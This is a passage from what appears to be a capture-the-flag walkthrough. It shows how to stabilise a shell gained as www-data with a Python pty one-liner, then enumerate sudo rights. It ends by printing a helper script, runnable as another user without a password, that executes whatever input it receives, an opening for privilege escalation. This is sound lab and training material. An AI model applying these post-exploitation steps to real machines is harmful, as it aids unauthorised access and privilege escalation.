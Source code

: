 it’s time for us to stabilize our shell

```jsx
STEP 1****************************************:
pyhton3 -c 'import pty;pty.spawn ("/bin/bash")'

STEP 2:
Press CTRL + Z to background process and get back to your host machine

STEP 3:
stty raw -echo; fg

STEP 4:
export TERM=xterm****************************************
```

we got a shell as www-data and we need to escalate our privilege

```jsx
www-data@ubuntu:/var/www/html/secret$ ls
images  index.php
www-data@ubuntu:/var/www/html/secret$ cd images
www-data@ubuntu:/var/www/html/secret/images$ ls
FailingMiserableEwe-size_restricted.gif  blue_boy_typing_nothought.gif
```

we use sudo -l to check the sudoers

```jsx
www-data@ubuntu:/home$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

let’s read the contents of the script

```jsx
www-data@ubuntu:/home/apaar$ cat .helpline.sh 
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"

```

